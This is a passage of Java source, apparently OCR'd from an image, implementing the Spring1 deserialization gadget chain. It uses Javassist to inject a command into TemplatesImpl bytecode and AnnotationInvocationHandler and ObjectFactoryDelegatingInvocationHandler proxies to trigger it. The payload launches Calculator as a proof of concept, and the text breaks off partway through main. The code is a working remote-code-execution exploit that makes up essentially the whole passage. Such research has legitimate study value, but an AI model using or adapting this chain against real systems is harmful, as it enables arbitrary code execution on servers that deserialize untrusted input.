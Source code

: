 ```java
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static Object templatesImpl
() throws Exception {

        // Generate malicious bytecodes
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("Spring1Exploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // Instantiate the class and set properties
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
        return templatesImpl;
    }

    public static void main(String[] args) throws Exception {

        // Use AnnotationInvocationHandler to dynamic proxy
        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = aClass.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        HashMap<String, Object> map = new HashMap<>();
        map.put("getObject", templatesImpl());

        // Initialize AnnotationInvocationHandler with dynamic proxy
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // Use the getObject method of the AnnotationInvocationHandler to dynamically proxy the ObjectFactory to return TemplatesImpl
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(
                ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);

        // The invoke method of ObjectFactoryDelegatingInvocationHandler triggers the getObject of ObjectFactory
        // And method.invoke(return value, args) will be called
        // At this time, the return value is changed to TemplatesImpl by us using dynamic proxy.
        // Next, the method needs to be newTransformer() to trigger the call chain
        Class<?> bClass = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdConstructor = bClass.getDeclaredConstructors()[0];
        ofdConstructor.setAccessible(true);

        // Instantiate the ObjectFactory class with dynamic proxying ObjectFactoryDelegatingInvocationHandler
```